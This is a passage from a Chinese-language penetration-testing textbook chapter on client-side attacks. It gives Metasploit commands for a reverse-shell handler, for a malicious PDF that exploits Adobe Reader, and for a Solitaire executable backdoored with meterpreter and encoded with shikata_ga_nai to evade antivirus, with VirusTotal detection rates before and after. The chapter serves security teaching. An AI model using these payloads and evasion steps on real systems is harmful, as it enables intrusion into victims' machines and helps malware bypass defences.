

我们已经为下一步做好了准备，那就是把文件放到受害者机器上，这样他们就可以执行它了。这就是我们选择`chess`名称的原因；看来我们有一个游戏让他们玩。在将文件传输到机器之前，我们必须设置 metasploit 工具以接收连接。在 metasploit 窗口中，输入以下内容：

```
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set LHOST 192.168.177.170
set LPORT 4444
exploit

```

以下屏幕截图显示了该结果的示例：


我们现在准备让受害者连接。正如我们在本章中所做的那样，我们将文件复制到受害者机器，然后执行它。由于我们已经多次解释了这一点，我们将进入下一个项目。

# 恶意 PDF 文件

另一种流行的攻击手段是使用普通文件来承载我们的攻击代码，这就是我们对恶意 PDF 文件所做的。我们将在 PDF 文件中创建有效负载；当受害者使用易受攻击的 Adobe Reader 版本运行它时，我们可以访问该机器。这一载体已被多次用于危害许多公司。在 metasploit 中，我们可以使用许多工具来创建 PDF 文件。在 metasploit 中输入以下命令：

```
use exploit/windows/fileformat/adobe_utilprintf
set FILENAME pay.pdf
set LHOST <Kali>
set LPORT 5555
show options
exploit

```

以下屏幕截图显示了此命令的输出示例：



正如前面的屏幕截图所示，我们现在将有效负载伪装成 PDF。屏幕截图还显示，我们需要特定版本的 Adobe 才能利用此漏洞。同样，我们已经经历了足够多的过程，在此不再重复。过程是一样的；这里唯一的区别是，我们将使用 PDF 文件作为攻击向量。

# 绕过防病毒等防护工具

我们在客户端测试中面临的挑战之一是（极有可能）将有端点保护，因此，不仅很有可能被捕获，而且我们的载体也会被主机保护删除。与任何基于特征的检测一样，存在一个数据库，其中包含已发现的不同病毒及其变体的特征。当我们查看本章中使用的技术时，我们需要了解我们开发的有效负载是否会被防病毒软件检测到。

### 注

非常擅长帮助的网站是[www.virustotal.com](http://www.virustotal.com)。

我们可以上传我们的潜在负载，看看它是否被防病毒软件检测到。我们在本章前面创建的`https.exe`文件示例如以下屏幕截图所示：



正如之前的截图所示，51 款防病毒产品中有 34 款检测到该文件。这大约是 67%，不是一个很好的检出率。正如我们之前所做的那样，我们将查看我们正在测试的站点是否有防病毒版本，然后在查看文件时查看产品是否成功。以下屏幕截图显示了一些未检测到恶意代码的产品的示例：


我们要查看的下一个文件是我们的 PDF 文件。以下屏幕截图显示了检测能力的示例：



显示检测能力示例的屏幕（剪切的文本不重要）

对于 PDF 文件，我们有一个更低的检测率和，因此我们可以通过比二进制有效负载更多的产品。

# 混淆与编码

因为我们知道我们的文件被检测到，所以我们有一些方法试图使它们更难检测，正如您可以想象的那样，基于签名的检测，的目标是修改文件，使其与签名不匹配。正如我们之前所做的，我们将研究 metasploit 提供的模块，以尝试修改文件的签名。我们将看到的工具是元 Sploit 中的`msfencode`。我们可以通过输入`msfencode –h`来查看工具的使用情况。此命令的输出显示在以下屏幕截图中：



接下来我们要探讨的是实际的编码器本身。该工具不仅有许多选项，而且还有许多不同的编码器，如以下屏幕截图中的列表所示：


我们将使用的最后一种技术来查看针对它的检测能力是可执行文件中的后门概念。我们喜欢的是，我们可以将任何合法的可执行文件作为后门，当用户运行它时，他们会向我们发送一个 shell。我们将用于本实验的程序是`sol.exe`，这是纸牌程序。我们将使用其中一个编码器，但在此之前，我们有从 Windows 机器复制原始`sol.exe`文件，并将其放置在 templates 文件夹中，如以下屏幕截图所示：


一旦文件位于正确的位置，我们将在可执行文件中创建后门，并且我们将再次使用`msfpayload`和`msfencode`的组合。输入以下命令：

```
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.177.170 LPORT=443 R | msfencode -t exe -x sol.exe -k -o sol_bdoor.exe -e x86/shikata_ga_nai -c 3

```

此命令输出的示例如以下屏幕截图所示：



由于我们已经使用了编码器，现在我们想看看当它上传到 Virustotal 站点时我们得到了什么结果。以下屏幕截图显示了一个示例：



我们的编码非常成功。我们现在只有 14%的产品可以检测我们的代码，所以这比以前好多了。而且，我们只做了三次迭代。我们可能会对此进行改进，这是您可能想要尝试的东西，但出于我们的目的，我们将在这里停止编码。此时，您将设置多处理器，然后执行程序；此时，受害者将连接到您的机器。以下屏幕截图显示了一个示例：


# 总结

在本章中，我们讨论了客户端攻击，随着供应商提高其安全性，这仍然是首选的方法。我们仍然可以使用我们在书中讨论过的其他方法；随着时间的推移，服务器端攻击变得越来越无效。然而，正如我们自始至终所说的，你必须测试所有的可能性，这就是为什么我们要遵循一个系统的过程。本章一开始，我们将介绍诱饵和诱饵的概念，以及如何让客户来找我们。

在讨论了诱饵和诱饵之后，我们研究了数据的窃取，也就是说，一旦我们有了一个外壳，我们可以从客户那里提取什么。我们使用了 metasploit 中提供的许多枚举工具来实现这一点。

接下来，我们研究了从客户端建立轴心点的强大技术，然后我们对没有第一台受损机器就无法访问的机器进行了攻击。

我们讨论的下一个领域是不同类型的客户端开发；我们有`browser_autopwn`、二进制有效载荷和恶意 PDF 文件。

最后，我们结束了本章，并研究了通过防病毒和其他基于特征码的检测产品绕过检测。我们在纸牌程序中创建了一个后门可执行文件，一旦程序被执行到受害者的机器上，我们就获得了访问权限。

本章到此结束。在下一章中，我们将着眼于创建一个完整的体系结构，并将本书的所有概念放在一起。